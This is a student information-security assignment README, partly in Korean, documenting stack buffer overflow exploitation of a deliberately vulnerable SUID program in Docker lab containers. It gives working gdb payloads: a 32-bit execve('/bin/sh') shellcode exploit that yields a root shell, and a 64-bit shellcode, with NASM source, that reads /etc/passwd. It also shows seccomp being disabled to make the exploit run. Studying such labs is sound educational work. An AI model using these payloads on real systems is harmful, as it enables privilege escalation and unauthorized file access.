# buffer-overflow-practice
4th Year Information Security Assignment about buffer overflow

## Table of Contents

- [Background](#background)
- [English Ver.](#english-version)
    - [x86 32 bit Ubuntu Buffer Overflow](#x86-32-bit-ubuntu-buffer-overflow)
        - [Docker Environment](#docker-environment)
        - [Kernel Space / User Space](#kernel-space--user-space)
        - [gdb execute](#gdb-execute)
            - [Before Executing `strcpy`](#before-executing-strcpy)
            - [After Executing `strcpy`](#after-executing-strcpy)
        - [Adequate Length of "A"](#adequate-length-of-a)
        - [Exploit Payload](#exploit-payload)
        - [Trouble Shooting](#trouble-shooting)

    - [x86 64 bit Ubuntu Buffer Overflow](#x86-64-bit-ubuntu-buffer-overflow)
        - [Docker Environment Setup](#docker-environment-setup)
        - [GDB Execution](#gdb-execution-1)
        - [Overflowing the Return Address](#overflowing-the-return-address)
        - [Finding the Jump Address](#finding-the-jump-address)
        - [Exploit Payload](#exploit-payload-1)
        - [Troubleshooting — Address Shift](#troubleshooting--address-shift)
        - [Troubleshooting — File Not Found](#troubleshooting--file-not-found)
        - [Recompiling the Shellcode](#recompiling-the-shellcode)
        - [Success Results](#success-results)

> For Korean
- [Korean Ver.](#korean-ver)

---

# Background

## Buffer Overflow

A buffer overflow is a vulnerability that occurs when a program writes more data into a fixed-size memory buffer than it can hold. The excess data overflows into adjacent memory regions, potentially corrupting data, crashing the program, or — most dangerously — allowing an attacker to hijack the program's control flow and execute arbitrary code.This vulnerability is most commonly found in low-level languages like C and C++, where the programmer is responsible for managing memory boundaries. Functions like strcpy, gets, and sprintf do not perform bounds checking, making them prime targets for exploitation.

## Stack Memory Layout

To understand how buffer overflows work, we must first understand the structure of the call stack. When a function is called, a new stack frame is pushed onto the stack containing:

```
High Address
┌─────────────────────────┐
│  Function Arguments     │
├─────────────────────────┤
│  Return Address (RIP)   │  ← where execution resumes after the function returns
├─────────────────────────┤
│  Saved Base Pointer     │  ← previous frame's RBP
├─────────────────────────┤
│  Local Variables        │
│  (including buffer[])   │  ← stack grows downward
└─────────────────────────┘
Low Address
```

Key observations:

- The stack grows downward (from high addresses to low addresses)
- Local variables, including buffers, are allocated below the saved base pointer and return address
- When data is written into a local buffer, it is written upward (from low to high addresses)

This creates a dangerous asymmetry: if a buffer is filled beyond its declared size, the excess bytes will overwrite the saved base pointer and, eventually, the return address itself

## How the Overflow Hijacks Control Flow

Consider a vulnerable function:

```c
cvoid vulnerable(char *input) {
    char buffer[256];
    strcpy(buffer, input);   // No bounds checking!
}
```

When the function is called, the stack looks like this(It's little different by user's OS bit system):
```
[ buffer (256 bytes) ][ saved RBP (8B) ][ return address (8B) ]
       ↑
       strcpy writes here, growing upward →
```
If input contains more than 256 bytes, strcpy continues writing past the buffer's end, eventually overwriting the return address. When the function reaches its ret instruction, the CPU pops what it believes to be the return address from the stack and jumps to that location.
If an attacker controls the bytes that overwrite the return address, the attacker controls where the program jumps next.

## The Three Stages of Exploitation

A successful buffer overflow exploit typically consists of three stages:

1. Reach the Return Address: The attacker must determine exactly how many bytes are needed to fill the buffer and reach the saved return address. This is the offset — for example, 280 bytes in our case (buffer[256] + alignment + saved RBP).
2. Place Executable Code: The attacker injects shellcode — a sequence of machine instructions designed to perform a malicious action, such as spawning a shell or reading sensitive files. This shellcode is typically placed at the beginning of the input string, well within the buffer itself.
3. Redirect Execution to the Shellcode: The attacker overwrites the return address with a value that points back into the buffer, where the shellcode resides. When the function returns, the CPU jumps to the shellcode and executes it.

A common technique to make this more reliable is the NOP sled — a long run of \x90 (NOP, "no operation") instructions placed before the shellcode. Since stack addresses can shift slightly between executions, the NOP sled provides a "landing zone": as long as the return address points anywhere within the sled, the CPU will simply slide through the NOPs until it reaches the actual shellcode.

```
[ NOP NOP NOP ... NOP NOP ][ shellcode ][ ... ][ overwritten return address ]
       ↑                       ↑                          │
       │                       │                          │
       └───────── jump here ◄──┴──────────────────────────┘
```

# English Version

## x86 32 bit Ubuntu Buffer Overflow

### Docker Environment

This environment is running inside an Ubuntu x86 32-bit container, built on top of an Ubuntu AMD64 base Docker image.

To spin up the container environment, run the following commands:

```bash
sudo docker compose up -d

sudo docker exec -it ubuntu_x86_32 /bin/bash
```

Now, you can safely proceed with the buffer overflow practice inside the interactive container shell.

### Kernel Space / User Space

```
0xFFFFFFFF  ┌─────────────────────┐
            │                     │
            │    Kernel Space     │  1GB (Kernel space, inaccessible from User space)
            │                     │
0xC0000000  ├─────────────────────┤  ← Boundary Line (3GB)
            │   User Stack        │  ↓ Grows down
            │      ...            │
            │   Shared Libraries  │  (mmap region for libc, etc.)
            │      ...            │
            │   Heap              │  ↑ Grows up
            │   BSS               │
            │   Data              │
            │   Text (Code)       │
0x08048000  ├─────────────────────┤  ← Standard ELF Loading Address
            │   (Unused)          │
0x00000000  └─────────────────────┘  ← NULL (Inaccessible)

```


### GDB Execution

First, execute the vulnerable binary with a large input to trigger a Segmentation Fault.

As shown above, feeding a 300-byte string of "A"s successfully triggers a segmentation fault. Next, we analyze the binary using GDB to find out exactly how much data is required to overflow the buffer and overwrite the return address.

#### Before Executing `strcpy`

The following state shows execution paused right before the vulnerable section. (Note: some characters in the terminal display may appear corrupted).

Executing `nexti` moves the execution forward. In this 32-bit Ubuntu system, the stack grows downward toward lower memory addresses, and the local variable `char buffer[256]` is allocated within the `main` stack frame.

Our analytical focus for the `main` stack frame relies on two key principles:

1. Overwriting the **return address** allows us to hijack control flow and redirect execution to an arbitrary memory address.
2. If the payload overflows beyond the permitted stack boundaries into unmapped regions, a **Segmentation Fault** will occur, terminating the process.

Given that a 300-byte string is being copied into a 256-byte buffer, it is highly likely that critical stack pointers are being corrupted. Let's inspect the registers post-execution.

#### After Executing `strcpy`

The register state changes significantly after the execution of `strcpy`.

Once `strcpy` finishes, its individual stack frame clears, and control shifts back to the `main` stack frame. Because 300 bytes of "A"s were copied into `buffer`, the payload spilled into the **Saved EBP** area of `main`, completely overwriting it with `0x41414141`.

To find the precise offset needed to control the return address without unnecessarily destroying adjacent memory structures, we can substitute "A"s with distinct character sequences (like "B", "C", etc.) and observe exactly where the values shift.

### Determining the Adequate Length of "A"

At the assembly level, space for local variables is reserved at the very beginning of the function prologue. For a `buffer[256]` declaration, the compiler allocates corresponding stack space. We can verify the precise allocation size by analyzing the assembly instructions.

Right before calling `strcpy`, the following instruction appears:

```c
lea    eax,[ebp-0x118]
```

This instruction loads the address of the local buffer into `eax` to pass it as the destination argument for `strcpy`. It pushes `eax` right before making the function call:

```c
lea    eax, [ebp-0x118]  ; eax = local stack buffer (0x118 = 280 bytes)
push   eax               ; 1st argument: dst = local buffer
call   strcpy@plt        ; strcpy(buf, argv[1])

```

This confirms that the buffer allocation size is `0x118` (280 bytes) instead of exactly 256. This padding is due to compiler stack alignment. We can now infer the distance to the **Saved EBP** and **Return Address**.

The image above shows the stack after being overwritten with exactly 280 "A"s. Let's compare this with the 300 "A"s execution register state:

Below is the register state when passing 280 characters:

Looking closely at `ebp`, the value for 280 "A"s reads `0       0` due to corruption. Even though we sent exactly 280 bytes, `strcpy` appends a null terminator (`\0`), meaning 281 bytes were actually written to the stack. This single null byte overflowed into the lowest byte of the EBP register.

To confirm our offset math, let's inject a distinct trailing string:

```python
run $(python3 -c 'print("A" * 280 + "ABCD")')

```

If our calculation is correct, the `ebp` register after `strcpy` should hold the value `0x44434241` ("DCBA" in Little-Endian format).

Now that the exact offset is verified, we can construct an exploit structure by placing a NOP sled and shellcode within the buffer, overwriting the return address with the address pointing to our shellcode:

```
Low <- [NOP sled + shellcode (280B)] [saved EBP (4B)] [return address (4B)] -> High

```

### Exploit Payload

To verify control flow redirection, we first test a baseline structural payload:

```python
run $(python3 -c 'print("A" * 280 + "ABCD" + "DDDD")')

```

Let's execute the binary with this payload.

The image above shows the state before the function call.

After execution, an anomaly appears: `esp` points to `0x4141413d`. Because we appended `DDDD`, we expected `esp` to jump elsewhere, or at least match `0x41414141`.

To understand why `esp` lands on `0x4141413d`, we must examine the function epilogue assembly instructions.

### Troubleshooting

```bash
disas main

```

Inspecting the disassembly of `main` right before the `ret` instruction reveals the following sequence:

```bash
   │0x56555622 <main+117>   add    esp,0x10
   │0x56555625 <main+120>   mov    eax,0x0
   │0x5655562a <main+125>   lea    esp,[ebp-0xc]
   │0x5655562d <main+128>   pop    ecx          
   │0x5655562e <main+129>   pop    ebx          
   │0x5655562f <main+130>   pop    esi          
   │0x56555630 <main+131>   pop    ebp          
   │0x56555631 <main+132>   lea    esp,[ecx-0x4]
  >│0x56555634 <main+135>   ret      

```

Notice that right before `ret`, the instruction `lea esp, [ecx-0x4]` is executed. This is a stack alignment recovery mechanism that restores the original stack pointer using `ecx`.

We can reverse-engineer this behavior: if we corrupt the stack area that gets popped into `ecx`, we can control `esp`. The value `0x4141413d` is the direct result of `0x41414141 - 0x4`.

Therefore, the exploit payload layout must pivot around this stack-alignment routine:

```
Low <- [NOP sled (264B)] [ecx-4 slot (4B)] [ecx (4B)] [NOP×8] [shellcode] -> High

```

To pinpoint exactly which part of our input string populates `ecx` under normal conditions, we pass a unique pattern string:

```bash
run $(python3 -c 'print("AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPPQQQQQQQQRRRRRRRRSSSSSSSSTTTTTTTTUUUUUUUUVVVVVVVVWWWWWWWWXXXXXXXXYYYYYYYYZZZZZZZZaaaaaaaabbbbbbbbccccccccddddddddeeeeeeeeffffffffgggggggghhhhhhhhiiiiiiiiABCD")')

```

Let's check where `esp` points after running this pattern:

The register state indicates that the crash targets the "h" character sequence. To find the exact byte alignment, we swap "hhhhhhhh" with "ABCDEFGH":

```bash
run $(python3 -c 'print("AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPPQQQQQQQQRRRRRRRRSSSSSSSSTTTTTTTTUUUUUUUUVVVVVVVVWWWWWWWWXXXXXXXXYYYYYYYYZZZZZZZZaaaaaaaabbbbbbbbccccccccddddddddeeeeeeeeffffffffggggggggABCDEFGHiiiiiiiiABCD")')
```

The exact match is located at offset 268 (the character sequence right after 'g'). This means offset 268 directly controls the `ecx` register. During the epilogue execution, the instruction `*(ecx-4)` will evaluate to `*(buffer+264)` and serve as our execution redirect target.

The final payload design maps out as follows:

```text
Offset 264 ~ 267 : Target address to jump to (★ becomes the destination for ret)
Offset 268 ~ 271 : Target value to be loaded into the ecx register
Offset 272 ~ 279 : NOP Padding (8 bytes)
Offset 280 ~     : Executable shellcode payload

```

By placing our buffer address `(buf + 268)` at offset 268, the `ecx` register receives `buf + 268`. When `lea esp, [ecx-4]` executes, `esp` points to `buf + 264`. The subsequent `ret` instruction pops the address stored at `buf + 264` into the `EIP` register. Since we placed `buf + 276` inside that slot, execution flows directly into our NOP sled at `buf + 276`, sliding straight into the shellcode at `buf + 280`.

We will use a standard 32-bit Linux local shellcode block that executes `execve("/bin/sh")`:

```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Because x86 32-bit systems utilize **Little-Endian** byte ordering, multi-byte memory addresses must be written in reverse-byte order. We use Python's built-in `struct` module to guarantee proper byte packaging:

```bash
run "$(python3 -c '
import sys, struct; \
buf = 0xffffd560; \
sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; \
p = b"\x90" * 264 + \
    struct.pack("<I", buf + 276) + \
    struct.pack("<I", buf + 268) + \
    b"\x90" * 8 + sc; \
sys.stdout.buffer.write(p)' \
)"
```

| Offset | Content | Role |
| --- | --- | --- |
| 0 ~ 263 | `\x90` × 264 | NOP Sled |
| 264 ~ 267 | `buf + 276` | Slot read by `*(ecx-4)`, loaded into EIP |
| 268 ~ 271 | `buf + 268` | Target `ecx` value (used by `lea esp, [ecx-4]`) |
| 272 ~ 279 | `\x90` × 8 | NOP Padding |
| 280 ~ | Shellcode | `execve("/bin/sh")` payload body |

Executing this initial payload yields the following output:

The application crashed because expanding the `argv[1]` argument size pushed environmental variables higher up on the stack, slightly shifting the absolute base address of `buffer`.

The debugger output reveals that execution tried jumping to `0x8953e289`, which aligns perfectly with the raw shellcode bytes `\x89\xe2\x53\x89`.

To fix this offset shift, we readjust our target base address pointer down to `0xffffd540`:

```bash
run "$(python3 -c 'import sys,struct; buf=0xffffd540; \
sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; \
p = b"\x90" * 264 + \
    struct.pack("<I", buf + 276) + \
    struct.pack("<I", buf + 268) + \
    b"\x90" * 8 + sc; \
sys.stdout.buffer.write(p)')"

```

The modified payload successfully executes, spawning a root shell.

```bash
whoami
```

Because the binary was compiled with the SUID bit enabled, executing `execve("/bin/sh")` retains the elevated privileges of the binary owner rather than dropping back down to our standard unprivileged user account (`seonghun...`), achieving full privilege escalation.

---

## x86 64-bit Ubuntu Buffer Overflow

### Docker Environment Setup

```bash
sudo docker compose up -d

sudo docker exec -it ubuntu_x86_64 /bin/bash
```

Using the commands above, enter the 64-bit OS container.

### GDB Execution

Let's debug the program to prepare for the buffer overflow attack.



The screenshot above shows the state after `strcpy` has been executed.



After the `leave` instruction is executed, `rsp` points to `0xffffffffe518`, and the value at that address contains the `0x414141414141` that we overflowed (although we don't yet know the exact position).

While we could find the position by varying the input string as we did in the 32-bit case, this time let's calculate it directly.

After executing `strcpy`, `rsp` was pointing to `e400`. After `leave`, `rsp` became `e518`. This means the difference between the `strcpy` stack frame's frame pointer and `main`'s stack frame's frame pointer is `0x118`. Between them lies the space for `char buffer[256]`. Note that `0x118` equals 280 bytes — the same as in the 32-bit case.

### Overflowing the Return Address

Therefore, by inputting 280 characters, we can fill up to the saved RBP, with the return address located right above it. Let's run the following command to overflow it:

```bash
run $(python3 -c 'print("A" * 280 + "B" * 6)')
```

We used 6 bytes for "B" because 64-bit addresses are longer than 32-bit ones. We intentionally didn't fill it completely so that the return address stays within the accessible user space range. Let's run this as an experiment.



This is the state after the `leave` instruction. We've completely exited `strcpy` and returned to `main`, and we can see that our `"BBBBBB"` is located at address `e538`.

However, `rsp` is pointing to `e528`, which means it's not referencing `0x0000424242424242`. It seems that the stack frame's starting position shifted slightly because our `argv` argument became longer. Let's compensate by removing 16 "A"s.



Now it's aligned correctly. Let's use `stepi` to execute the `ret` instruction.



We can see that the instruction pointer register (`rip`) has been redirected to the address we wanted. Now we can place our exploit payload at this jump destination.

To determine an appropriate jump address, let's first examine where our many "A" characters are distributed in memory.

### Finding the Jump Address

```bash
run $(python3 -c 'print("A" * 300)')
```

After fully executing `strcpy`, let's inspect the contents starting from `$rsp`:

```bash
x/200xg $rsp
```



While targeting the middle of the buffer would give us a comfortable margin for our exploit, I'll target the very beginning at `e410`.

Let's run the following code to set up the jump address:

```bash
run "$(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 264 + b"\x7f\xff\xff\xff\xe4\x10"[::-1])')"
```



The address was loaded into `rsi` correctly. Now let's insert the exploit payload.

### Exploit Payload

We'll use the machine code provided in the reference document:

```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

Since the shellcode is 82 bytes total, we reduce the "A" padding by 82 bytes and insert the shellcode in its place:

```bash
run "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + b"A" * 182 + b"\x7f\xff\xff\xff\xe4\x10"[::-1])')"
```

Let's execute it.

### Troubleshooting — Address Shift



After `ret`, the relevant memory now starts at `e438`. This appears to be because our `argv` grew even longer, shifting the stack starting position. Let's adjust accordingly:

```bash
run "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + b"A" * 182 + b"\x7f\xff\xff\xff\xe4\x38"[::-1])')"
```



We thought it would work now, but we hit another wall.

### Troubleshooting — File Not Found

As execution continued, we encountered the following:



We can see that `rax` is set to `-2`, which suggests an error indicating that `/etc/passwd` was not found. Let's check whether the file actually exists on the terminal.



The file is present, but it appears the program cannot read it.

After some research, we learned that Docker has a feature called **seccomp** (short for *Secure Computing Mode*), a Linux kernel security feature that restricts which system calls a process can make to the kernel, helping to safely isolate containers.

To bypass this, we modify the `docker-compose` configuration to disable seccomp when running the container:

```yaml
security_opt:
  - seccomp=unconfined
```

After restarting the container, we noticed that the starting address had shifted yet again.


We need to readjust. The bytes `0f f6 31 48` appear to be located 12 bytes ahead of where we expected. Let's add a generous NOP sled so that the shellcode will still execute correctly:

```bash
run "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90" * 32 + b"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + b"A" * 150 + b"\x7f\xff\xff\xff\xe4\x38"[::-1])')"
```



Execution successfully landed in the NOP sled. However:

  

As shown above, the exploit still failed. We suspect that the provided machine code may have been corrupted in transcription, so let's recompile the assembly source on this machine using `nasm` and extract fresh machine code.

### Recompiling the Shellcode

Install the required tools:

```bash
apt update
apt install -y nasm binutils
```

Create the assembly source file:

```bash
cat > readfile.asm << 'EOF'
BITS 64
; Author: Mr.Un1k0d3r - RingZer0 Team
; Read /etc/passwd Linux x86_64 Shellcode
global _start
section .text
_start:
jmp _push_filename
_readfile:
    ; syscall: open file
    pop rdi                       ; pop path string address
    xor byte [rdi + 11], 0x41     ; NULL byte fix ('A' -> '\0')
    xor rax, rax
    add al, 2                     ; sys_open = 2
    xor rsi, rsi                  ; O_RDONLY = 0
    syscall

    ; syscall: read file
    sub sp, 0xfff
    lea rsi, [rsp]
    mov rdi, rax                  ; fd
    xor rdx, rdx
    mov dx, 0xfff                 ; size to read
    xor rax, rax                  ; sys_read = 0
    syscall

    ; syscall: write to stdout
    xor rdi, rdi
    add dil, 1                    ; stdout fd = 1
    mov rdx, rax                  ; bytes read
    xor rax, rax
    add al, 1                     ; sys_write = 1
    syscall

    ; syscall: exit
    xor rax, rax
    add al, 60                    ; sys_exit = 60
    syscall

_push_filename:
    call _readfile
    path: db "/etc/passwdA"
EOF
```

Assemble it and extract the machine code:

```bash
nasm -f elf64 readfile.asm -o readfile.o

for i in $(objdump -d readfile.o | grep "^ " | cut -f2); do 
    printf '\\x%s' $i
done
echo
```

Verify the shellcode length:

```bash
objcopy -O binary -j .text readfile.o readfile.bin
wc -c readfile.bin
```

The output confirms 82 bytes, matching the expected size. Now we insert this freshly compiled shellcode back into the exploit payload:

```bash
run "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90" * 32 + b"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + b"A" * 150 + b"\x7f\xff\xff\xff\xe4\x38"[::-1])')"
```

### Success Results

Now let's run it and step through with `stepi`:



The exploit succeeded — the contents of `/etc/passwd` are displayed, confirming that arbitrary code execution was achieved through the buffer overflow vulnerability.

---

# Korean Ver.

## x86 32 bit Ubuntu Buffer Overflow

### Docker Environment

본 설명은 Docker 의 Ubuntu AMD 기반 이미지를 따와서 거기에 Docker 를 설치하여 ubuntu x86 32 bit 기반의 컨테이너 내부에서 실행한 결과입니다.

[Docker 설치 방법](https://docs.docker.com/engine/install/ubuntu/)

ubuntu 운영체제에서 다음을 실행하면 됩니다.

```bash
sudo docker compose up -d

sudo docker exec -it ubuntu_x86_32 /bin/bash
```

이제 해당 컨테이너에서 buffer overflow 를 실습하면 됩니다.

### Kernel Space / User Space

```
0xFFFFFFFF  ┌─────────────────────┐
            │                     │
            │    Kernel Space     │  1GB (커널 전용, 유저 접근 불가)
            │                     │
0xC0000000  ├─────────────────────┤  ← 경계선 (3GB)
            │   User Stack        │  ↓ grows down
            │      ...            │
            │   Shared Libraries  │  (libc 등 mmap 영역)
            │      ...            │
            │   Heap              │  ↑ grows up
            │   BSS               │
            │   Data              │
            │   Text (Code)       │
0x08048000  ├─────────────────────┤  ← 일반적인 ELF 로드 주소
            │   (미사용)           │
0x00000000  └─────────────────────┘  ← NULL (접근 불가)
```

### gdb execute

우선 취약점 코드를 실행하여 segment fault 를 띄워본다.



위 사진처럼 "A" 문자열 300개를 넣어 segment fault 를 띄웠다. 취약점이 있는 코드를 디버깅을 하여 얼마나 overflow 를 해야 return 주소를 침범할 수 있는지 살피기 위해 위 명령을 실행했다.

#### Before Executing `strcpy`

아래 사진은 취약점이 없는 구간까지 다 실행한 상태이다. 터미널의 문자열들이 깨지는 점 양해바란다.



이 지점에서 `nexti` 를 다시 실행해보자. 현재 32 비트 우분투 체제에서는 기본적으로 RAM 은 Low 로 Stack 이 자라나고, `char buffer[256]` 라는 local parameter 는 `main` stackframe 에 어떤 곳에 자리잡을 것이다. 아래는 그에 대한 스케치다.

위처럼 우리는 Main Stackframe 에 대해서

1. return 값을 바꾸면 우리가 원하는 함수로의 실행이 가능하게 된다.
2. 다만 Main Stackframe 을 넘어서는 공간을 침범할 경우 Segmentation Fault 가 떠서 프로세스는 종료가 돤다.

현재는 2번의 상황일 가능성이 높다 ~~256바이트짜리 버퍼에 300바이트 문자열이 들어가기 때문~~ 계속 실행해보자.

#### After Executing `strcpy`



위처럼 바뀌었다.

`strcpy` 함수 호출이 끝나면 esp는 `strcpy` 의 스택프레임이 정리되면서 main의 스택프레임으로 돌아오게 된다. 이때 `strcpy` 의 인자였던 `buffer` 에 300개의 "A"가 들어가면서 main의 saved EBP 영역까지 침범하여 `0x41414141` 로 덮어쓰게 된다.

이때 Main 의 지역 변수로 선언되었던 `buffer` 에 300 개의 "A" 가 들어가게 되면서 Main 의 ebp 가 가르키는 부분에 "A" * 4 로 오염시키게 된다. 따라서 이 값이 `0x41414141` 가 됨을 볼 수 있다.

"A" 문자열의 개수를 조절해가면서 적당한 수치를 찾아 buffer overflow 를 성공해보자. 우선은 `"A" = 0x41` 인데, 다른 characater 인 "B" 를 사용하여 어디 부분에서 `0x42` 로 될지 그 수치를 찾자.

### Adequate Length of "A"

기본적으로 어셈블리 수준에서는 지역 변수를 먼저 할당시켜놓고 함수를 실행하기 위한 준비를 하게 된다. 따라서 buffer 256 이라는 수치에서 256 byte 를 할당시켰을 것이다. 이 수치를 정확히 알기 위해 어셈블리어를 해석해서 찾아볼 수 있다.



`strcpy` 이전에는 

```c
lea    eax,[ebp-0x118]
```

위와 같은 명령어가 있음을 볼 수 있다. 이는 `strcpy` 전에 두번째 인자를 할당하기 위해 buffer 지역 변수를 들고오는 과정이다. 이 명령 후에 곧바로 push 를 하여서 buffer 의 첫번째를 가르키는 주소를 push 하게 된다. 정리하면 다음과 같다:

```c
lea    eax, [ebp-0x118]  ; eax = 스택의 로컬 버퍼 (0x118 = 280바이트)
push   eax               ; 1번째 인자: dst = 로컬 버퍼
call   strcpy@plt        ; strcpy(buf, argv[1]) 호출, argv[1] 의 준비과정은 그 위에 있음
```

이를 툥해 `saved EBP`, `return address` 를 덮어씌울 수 있게 되고, `0x118` 은 280 과도 같다. 이제 main 에 얼마나 문자를 써야 `return address` 전까지 갈 수 있을지 추측이 가능하다.



위는 280 개의 A 를 overwrite 한 결과다. 아까의 결과와 차이점을 보자.



위는 300 개의 "A" 를 넣을 때다.



위는 280 개의 character 를 넣고 `strcpy` 실행 후의 Registers 를 출력해본 결과다. 유심히 볼 곳은 `ebp` 이다. 280 의 ebp 는 조금 깨졌지만 `0       0` 처럼 되어 있다. 이 이유는 손상되어서 그런데, "A" * 280 뒤에는 "\0" 의 값이 암묵적으로 들어가게 된다. 따라서 사실은 281 개의 문자가 스택에 쌓이게 되는데, 그 "\0" 이 EBP 영역을 침범한 것이다. 이게 맞는지 확인하기 위해 추가적인 문자열을 넣어보자.

```python
run $(python3 -c 'print("A" * 280 + "ABCD")')
```

우리의 예상대로라면 ebp 에는 strcpy 호출 후에 `0x44434241` 가 와야 한다.

 

이제 버퍼 안에 셸코드를 삽입하고, return address를 셸코드가 위치한 스택 주소로 덮어씌울 수 있다.

다음처럼 하면 된다:

```
Low <- [NOP sled + shellcode (280B)] [saved EBP (4B)] [return address (4B)] -> High
```

### Exploit Payload

이제 위를 악용해서 Exploit Payload 를 짜야하는데, 이는 우선 의도한대로 돌아가는지 확인만 하기 위해서 간단하게만 짜자.

```python
run $(python3 -c 'print("A" * 280 + "ABCD" + "DDDD")')
```

이제 돌려보자.



위는 호출 전이다.



위 사진은 호출 후인데, 이상한 점이 보인다.

esp 가 `0x4141413d` 임을 알 수 있다. `DDDD` 를 넣었기 때문에 esp 가 이상한 대로 튀어야 할 것이며, 그렇지 않더라도 `0x41414141` 이 되어야 할 것이다.

왜 이렇게 되는지 알기 위해서 어셈블리어를 살펴보자.

### Trouble Shooting

```bash
disas main
```

위 명령어를 입력하면 메인을 쉽게 볼 수 있다.

ret 를 하기 전 명령어를 보자.

```bash
   │0x56555622 <main+117>   add    esp,0x10
   │0x56555625 <main+120>   mov    eax,0x0
   │0x5655562a <main+125>   lea    esp,[ebp-0xc]
   │0x5655562d <main+128>   pop    ecx          
   │0x5655562e <main+129>   pop    ebx          
   │0x5655562f <main+130>   pop    esi          
   │0x56555630 <main+131>   pop    ebp          
   │0x56555631 <main+132>   lea    esp,[ecx-0x4]
  >│0x56555634 <main+135>   ret      
```

잘 보면 `return` 하기 전에 esp 에다가 ecx 에서 `0x4` 를 빼서(substract) 불러오는 것을 볼 수 있다. 이는 함수가 시작되기 직전의 원래 esp(스택 포인터) 주소를 정확하게 복원하기 위한 수학적 역연산 과정이다. 우리는 이를 역이용하여 ecx 가 가르키는 `0x4141413d` 가 있는 곳을 찾아내어서 해당 문자열 부분을 수정시켜주면 될 것이다. 그리고 앞서 봤던 exploit payload 도 살짝 달라진다.

```
Low <- [NOP sled (264B)] [ecx-4 슬롯 (4B)] [ecx (4B)] [NOP×8] [shellcode] -> High
```

segmentation fault 가 일어나기 전에 정상 동작에서 ecx 가 어디를 가르키고 있는지를 보자.

```bash
run $(python3 -c 'print("AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPPQQQQQQQQRRRRRRRRSSSSSSSSTTTTTTTTUUUUUUUUVVVVVVVVWWWWWWWWXXXXXXXXYYYYYYYYZZZZZZZZaaaaaaaabbbbbbbbccccccccddddddddeeeeeeeeffffffffgggggggghhhhhhhhiiiiiiiiABCD")')
```

위를 쳐서 esp 가 어디를 가르키는지 보자.



이로써 h 가 있는 곳임을 알 수 있다. 더 정확히 파악하기 위해 "hhhhhhhh" 를 "ABCDEFGH" 로 바꿔서 해보자.

```bash
